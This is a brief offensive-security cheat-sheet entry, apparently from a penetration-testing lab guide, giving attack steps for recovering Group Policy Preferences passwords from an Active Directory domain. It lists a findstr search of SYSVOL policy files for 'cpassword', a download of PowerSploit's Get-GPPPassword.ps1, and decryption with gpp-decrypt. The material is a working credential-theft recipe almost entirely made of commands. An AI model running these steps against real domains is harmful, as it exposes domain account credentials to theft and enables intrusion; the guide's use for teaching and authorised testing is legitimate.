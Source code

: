 - - -
Attacking Steps ( **1** ) :

```powershell
PS> findstr /S /I cpassword \\marvel.local\sysvol\marvel.local\policies\*.xml
```

Download [Get-GPPPassword.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1)

```powershell
PS> Get-GPPPassword
```

Or we can also decode it on our kali : 

```python
gpp-decrypt <encrypted_cpassword>
```

- - -


